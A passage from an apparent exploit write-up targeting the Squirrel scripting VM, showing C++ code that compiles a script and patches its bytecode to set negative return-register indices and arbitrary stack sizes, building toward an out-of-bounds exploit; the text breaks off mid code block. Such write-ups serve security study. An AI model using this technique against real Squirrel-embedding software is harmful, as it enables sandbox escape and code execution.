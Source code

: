 We don't want to write our whole exploit in raw bytecode.
Therefore, a way to inject the "invalid" bytecode into an existing squirrel program is needed.
I decided to reuse the squirrel compiler for this, and apply some patches to the bytecode after compiling it.

The method works as follows: whenever we find a call to a function called `setMinusN` (where N is an arbitrary number), the call is patched so that the return arg for that call is set to `-N`.
Here's how to accomplish that with some C++ code:

```
// this basically just compiles `exploit.nut` without calling it
auto vm = sq_open(1024);
sq_setprintfunc(vm, printfunc, errorfunc);

sq_pushroottable(vm);
sqstd_register_bloblib(vm);
sqstd_register_mathlib(vm);
sqstd_register_stringlib(vm);

CHECK(vm, sqstd_loadfile(vm, "./exploit.nut", SQTrue));
auto exploitFunc = _closure(vm->Top())->_function;
debug("stack %lld", exploitFunc->_stacksize);

// patch CALL instructions for special features
for (int pidx = 0; pidx < exploitFunc->_ninstructions; ++pidx) {
    // before a call, there is a PREPCALLK opcode that loads the function
    // we require it to find the function name
    SQInstruction& prepcall = exploitFunc->_instructions[pidx];
    if (prepcall.op != _OP_PREPCALLK) continue;
    const char* name = _string(exploitFunc->_literals[prepcall._arg1])->_val;

    // if we have found a PREPCALLK, search for the actual CALL instruction that uses that function
    SQInstruction* call = NULL;
    for (int cidx = pidx; cidx < exploitFunc->_ninstructions; ++cidx) {
        SQInstruction* c = exploitFunc->_instructions + cidx;
        if (c->op == _OP_CALL && c->_arg1 == prepcall._arg0) {
            call = c;
            break;
        }
    }

    // if the function matches our naming scheme, patch the call
    if (strncmp(name, "setMinus", strlen("setMinus")) == 0) {
        int idx = -atoi(name + strlen("setMinus"));

        call->_arg0 = idx;
        debug("patched call to %s", name);
    }
}
```

Also, we want some control over stack size.
Functions in Squirrel specify how much bytes of stack they require when they are called.
So we include another patch: functions with the name `stackN` are patched to require a stack size of `N` bytes.
This way, when we call that function, the stack must be at least that amount of bytes.
After patching, we can simply write our compiled bytecode back to file using `sqstd_writeclosuretofile`.
Here's that part:
```
// patch function stack size
for (int fidx = 0; fidx < exploitFunc->_nfunctions; ++fidx) {
    auto func = _funcproto(exploitFunc->_functions[fidx]);
    if (sq_type(func->_name) != OT_STRING) continue;

```